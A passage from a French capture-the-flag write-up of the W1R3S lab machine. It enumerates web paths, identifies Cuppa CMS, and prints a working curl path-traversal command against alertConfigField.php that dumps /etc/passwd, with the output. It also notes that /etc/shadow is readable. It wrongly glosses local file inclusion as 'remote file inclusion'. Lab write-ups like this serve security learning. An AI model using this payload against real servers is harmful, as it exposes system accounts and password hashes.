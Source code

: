 * _/index.html_ est la page par défaut d'Apache 2 pour Ubuntu.
* _/server-status_ renvoie une erreur 403 Forbidden.
* _/wordpress_ redirige vers localhost : pour corriger le problème, la ligne ```192.168.56.101	localhost``` est à ajouter dans le fichier /etc/hosts.
* _/administrator_ est la page d'installation de Cuppa CMS.

Un scan avec l'outil [WordPress Security Scanner](https://wpscan.org/) n'a rien révélé de particulier, si ce n'est un [_directory listing_](https://www.it-connect.fr/quest-ce-que-le-directory-browsinglisting/) sur le répertoire ```uploads```, mais il n'y a aucun fichier intéressant à se mettre sous la dent, juste des images au format JPG.

![Affichage de l'image w1r3s_cuppaCMS.png](images/w1r3s_cuppaCMS.png)

En revanche, la première occurrence de ```Cuppa CMS``` dans Google est une vulnérabilité décrite sur le site [Exploit-DB](https://www.exploit-db.com/exploits/25971/). Il s'agit d'une [inclusion de fichier local](http://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_remote file inclusion_ en anglais) via le fichier ```alertConfigField.php``` et son paramètre ```urlConfig```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site.

Exemple avec le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système.

```console
root@blinils:~# curl http://192.168.56.101/administrator/alerts/alertConfigField.php --data urlConfig=../../../../../../../../etc/passwd
--snip--
   <div id="content_alert_config" class="content_alert_config">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
--snip--
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```

À ma grande surprise, il est également possible de consulter le fichier ```/etc/shadow```, qui contient [les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd) et qui n'est censé être accessible que par root !

